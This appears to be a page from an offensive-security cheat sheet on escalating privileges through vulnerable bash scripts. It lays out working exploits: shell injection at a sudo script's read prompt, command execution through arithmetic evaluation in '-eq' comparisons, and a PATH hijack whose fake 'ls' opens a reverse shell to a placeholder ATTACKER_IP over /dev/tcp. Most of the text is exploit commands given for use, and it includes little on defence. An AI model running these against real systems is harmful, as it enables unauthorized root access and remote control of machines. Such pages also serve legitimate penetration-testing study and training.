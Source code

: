 # Bash

## Theory

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below. We have to Inject arbitrary command before the correct number (42).

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
`a[$(/tmp/shell.elf)]` will allow us, by evaluating the content of the array, to execute our script
{% endhint %}
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path

```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable
export PATH=/tmp:$PATH

#Execute the suid script
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}



